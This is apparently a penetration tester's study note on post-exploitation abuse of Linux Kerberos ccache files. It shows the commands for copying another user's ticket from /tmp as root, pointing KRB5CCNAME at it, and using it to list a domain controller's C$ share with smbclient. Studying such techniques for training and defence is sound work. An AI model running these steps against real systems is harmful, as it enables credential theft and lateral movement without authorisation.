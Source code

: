 ```yaml
---
tags:
  - Kerberos
  - Post-Exploitation
  - OperatingSystems
  - Linux
  - Concepts
  - Information
---
```

To abuse a ccache file, all we need is read privileges on the file. These files, located in `/tmp`, can only be read by the user who created them, but if we gain root access, we could use them.
#### Importing the ccache File into our Current Session

```shell-session
root@linux01:~# klist

klist: No credentials cache found (filename: /tmp/krb5cc_0)
```
```shell-session
cp /tmp/krb5cc_647401106_I8I133 .
```
```shell-session
export KRB5CCNAME=/root/krb5cc_647401106_I8I133
```
```shell-session
klist
```

See [[2. Enumeration/TCP/445. Server Message Block (SMB)/1. Guide|SMB]]

```shell-session
smbclient //dc01/C$ -k -c ls -no-pass
```


### Using Tools

See [[Evil-WinRM#Kerberos]] and [[SSH Tunnelling#Chisel]]